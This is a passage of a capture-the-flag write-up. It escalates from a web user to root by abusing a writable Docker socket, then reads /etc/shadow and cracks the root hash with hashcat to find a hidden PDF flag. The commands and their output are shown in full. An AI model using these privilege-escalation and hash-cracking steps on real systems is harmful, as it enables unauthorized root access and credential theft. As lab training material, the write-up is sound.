 ```shell
web@xptosystem:~$ find / -writable -group docker -ls 2>/dev/null
15081 0 srw-rw----  1 root  docker   0 Jan  4 18:38 /run/docker.sock
```
Then I confirm that I can write to the docker socket, when I identify the host with the `ps` command:
```shell
web@xptosystem:~$ ps aux | grep docker
...
root  778  0.0  0.2 474160  1180 ?  Sl   03:53   0:00
/usr/sbin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80
-container-ip 172.17.0.2 -container-port 80
...
```
Then I identify that the host is localhost `0.0.0.0`, when I execute the command found in Hacktricks:
```shell
web@xptosystem:~/http$ docker -H unix:///var/run/docker.sock
run -v /:/0.0.0.0 -it ubuntu chroot /0.0.0.0 /bin/bash

Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
6e3729cf69e0: Pull complete
...
Status: Downloaded newer image for ubuntu:latest
root@fd7e6fd9b938:/# id
uid=0(root) gid=0(root) groups=0(root)
```
Then I become root, and I can conclude that the root user is vulnerable, and because the web user belongs to the docker group and the writable permissions on the docker socket.

### Extraction
The challenge descriptions ask to find a hidden pdf file that does not have extension and it says that the root password contains a clue.

Given I am already the root user, then I start to find the PDF flag. and with the challenge description, I start to look for the root password, and I can access `/etc/shadow` and read the root password hash: ![evidence][./0-anexos/10-etc-shadown.png]
When I save the root password hash in the `root.hash`file, and I use `hashid` to identify the hash type:
```shell
$ hashid root.hash
--File 'root.hash'--
...
[+] SHA-512 Crypt
--End of file 'root.hash'--⏎
```
Then I know that is `SHA-512` Crypt, and I use `hashcat` with the `Rockyou` list to try to crack it:
```shell
$ hashcat -a 0 -m 1800 root.hash rockyou.txt --force
```
But it was so slow, and I try a different approach. When I use the `find` command with the `--exec` switch, and I apply the `file` and the `grep`  command to filter all files that have the magic bytes of a PDF file:
```shell
root@fd7e6fd9b938:~# find / -exec file {} \; | grep PDF\ document
/usr/share/doc/file/yetcfm@357/d4t4_exf1lter: PDF document, version 1.7
```
Then I identify the path of the flag `/usr/share/doc/file/yetcfm@357/d4t4_exf1lter`, and after nearly 2 hours `hashcat` could crack it:
```shell
...
yetcfm@357
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
```